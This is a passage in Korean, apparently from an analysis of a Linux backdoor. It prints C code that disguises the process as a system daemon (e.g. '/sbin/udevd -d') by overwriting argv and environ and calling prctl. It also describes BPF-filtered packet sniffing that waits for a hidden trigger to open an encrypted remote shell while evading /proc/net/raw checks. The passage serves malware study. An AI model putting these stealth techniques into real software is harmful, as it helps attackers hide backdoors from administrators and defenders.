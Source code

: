 - `set_proc_name()` 함수로 환경변수와 명령행 인자를 모두 덮어쓰고, `prctl(PR_SET_NAME)` 시스템 콜을 사용하여 프로세스 이름을 실제 시스템 데몬 이름처럼 바꾼다.
- e.g. `/sbin/udevd -d`, `dbus-daemon --system` ...

```c

int set_proc_name(int argc, char **argv, char *new) {
        size_t size = 0;
        int i;
        char *raw = NULL;
        char *last = NULL;
 
        argv0 = argv[0];
 
        for (i = 0; environ[i]; i++)
                size += strlen(environ[i]) + 1;
 
        raw = (char *) malloc(size);
        if (NULL == raw)
                return -1;
 
        for (i = 0; environ[i]; i++)
        {
                memcpy(raw, environ[i], strlen(environ[i]) + 1);
                environ[i] = raw;
                raw += strlen(environ[i]) + 1;
        }
 
        last = argv[0];
 
        for (i = 0; i < argc; i++)
                last += strlen(argv[i]) + 1;
        for (i = 0; environ[i]; i++)
                last += strlen(environ[i]) + 1;
 
        memset(argv0, 0x00, last - argv0);
        strncpy(argv0, new, last - argv0);
 
        prctl(PR_SET_NAME, (unsigned long) new);
        return 0;
}

// ...

set_proc_name(argc, argv, cfg.mask);
```

### 5. BPF 기반 패킷 스니핑

- 로우 소켓을 통해 NIC를 직접 제어하여 IP 패킷을 캡처한다. 이 때 BPF 필터 (struct sock_fprog)를 사용해 특정 조건 (프로토콜, 포트, 패턴 등)을 만족하는 패킷만을 처리한다.
- BPF가 아닌 다른 방식으로 패킷을 수신하려면 raw socket을 항상 열어두고 있어야 하고, 이는 `/proc/net/raw` 등에 노출되어 탐지되기 쉽다. 여기서 BPF는 시작 신호를 탐지하기 위해서만 사용되고 이후 암호화된 TTY 쉘을 직접 열어 공격 행위를 수행하기 위한 별도 동작을 수행한다.
